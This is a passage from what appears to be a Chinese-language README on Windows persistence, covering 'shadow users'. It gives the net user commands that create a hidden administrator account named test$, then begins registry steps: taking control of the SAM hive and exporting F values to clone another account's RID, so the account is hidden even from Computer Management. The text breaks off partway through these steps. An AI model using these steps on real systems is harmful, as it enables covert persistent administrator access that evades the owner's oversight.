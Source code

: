 ### 0xB.影子用户

即创建的隐藏用户，它无法通过普通命令进行查询，比较隐蔽。（要管理员）

创建个隐藏用户

```
net user test$ 123456 /add
net localgroup administrators test$ /add
```

net user无法查看

![image-20220308193032710](README/image-20220308193032710.png)

但是可以在计算机管理和登陆页面中看到

下面解决这个问题：

修改`HKEY_LOCAL_MACHINE\SAM\SAM` admin的权限为完全控制和读取，重新打开后导出3个内容：

test\$导出为1.reg
000003EC包含test$用户的F值，导出另存为2.reg
000003E9包含WIN10用户的F值，导出另存为3.reg

![image-20220308194155751](README/image-20220308194155751.png)
